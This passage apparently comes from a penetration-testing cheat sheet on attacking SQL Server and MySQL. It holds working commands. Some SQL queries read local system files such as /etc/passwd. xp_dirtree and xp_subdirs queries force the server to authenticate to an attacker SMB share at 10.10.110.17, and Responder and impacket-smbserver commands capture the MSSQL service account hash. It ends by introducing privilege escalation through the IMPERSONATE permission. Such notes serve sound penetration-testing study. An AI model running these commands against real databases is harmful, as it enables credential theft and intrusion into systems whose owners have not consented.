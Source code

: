 ### Read Local Files
#### MSSQL

```shell
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```
#### MySQL

```shell
select LOAD_FILE("/etc/passwd");
```

### Capture MSSQL Service Hash

We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures

To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) and execute one of the following SQL queries:

#### XP_DIRTREE Hash Stealing

```shell
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

subdirectory    depth
--------------- -----------
```
#### XP_SUBDIRS Hash Stealing

```shell
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO

HResult 0x55F6, Level 16, State 1
xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```

Responder
```shell
sudo responder -I tun0
```

Impacket smbserver
```shell
sudo impacket-smbserver share ./ -smb2support
```

### Impersonate Existing Users with MSSQL

SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends. Let's explore how the `IMPERSONATE` privilege can lead to privilege escalation in SQL Server.
